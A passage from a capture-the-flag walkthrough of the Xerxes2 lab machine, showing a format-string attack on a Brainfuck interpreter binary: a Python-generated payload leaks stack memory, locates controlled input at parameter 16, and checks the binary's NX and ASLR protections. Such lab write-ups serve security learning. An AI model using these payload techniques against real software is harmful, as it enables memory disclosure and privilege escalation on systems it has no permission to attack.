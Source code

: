 ```bash
delacroix@xerxes2:~$ /opt/bf "$(python -c 'print ">".join(["+" * ord(x) for x in ("AAAA" + ".%x" * 20 + "\n")])')#"
AAAA.b777bff4.0.0.bf842d58.b779b9c0.40.112a.bf83b820.b777bff4.bf842d58.80486eb.bf843860.bf83b820.7530.0.41414141.2e78252e.252e7825.78252e78.2e78252e
```

Here we are using the previously built brainfk payload generator, and giving it format strings, searching for the `AAAA` input we have given it. Instead of typing like 20 `%s`, I just use python to do the hard work for me. As you can see, the string `41414141` is present in the output. We can test if we are able to use direct parameter access to access just the string we want:

```bash
delacroix@xerxes2:~$ /opt/bf "$(python -c 'print ">".join(["+" * ord(x) for x in ("AAAA" + ".%16$x" "\n")])')#"
AAAA.41414141
```

Yup! Parameter 16 gives us what we need :)

Great. Were making progress... I think.

For the sake of time, I am not going to document the 412643932471236 attempts that were made at getting this to work. Instead, here is the path that did eventually work. This is the part of Xerxes2 that undoubtedly took me the longest to get right.

### /opt/bf - part3
Now that we know where we can start manipulating pointers, we need to find out _what_ we should manipulate. There are many options here, however your decision on which path to take is influenced by many vectors.

First of all, `/opt/bf` was compiled with the NX bit:

```bash
delacroix@xerxes2:~$ readelf -l /opt/bf | grep STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x4
```

Secondly, ASLR is enabled, and can be seen when printing the shared library dependencies. The memory positions are different for every check:

```bash
delacroix@xerxes2:~$ ldd /opt/bf
    linux-gate.so.1 =>  (0xb7734000)
    libc.so.6 => /lib/i386-linux-gnu/i686/cmov/libc.so.6 (0xb75c9000)
    /lib/ld-linux.so.2 (0xb7735000)
delacroix@xerxes2:~$ ldd /opt/bf
    linux-gate.so.1 =>  (0xb779b000)
    libc.so.6 => /lib/i386-linux-gnu/i686/cmov/libc.so.6 (0xb7630000)
    /lib/ld-linux.so.2 (0xb779c000)
delacroix@xerxes2:~$ ldd /opt/bf
    linux-gate.so.1 =>  (0xb77c0000)
    libc.so.6 => /lib/i386-linux-gnu/i686/cmov/libc.so.6 (0xb7655000)
    /lib/ld-linux.so.2 (0xb77c1000)
delacroix@xerxes2:~$
```
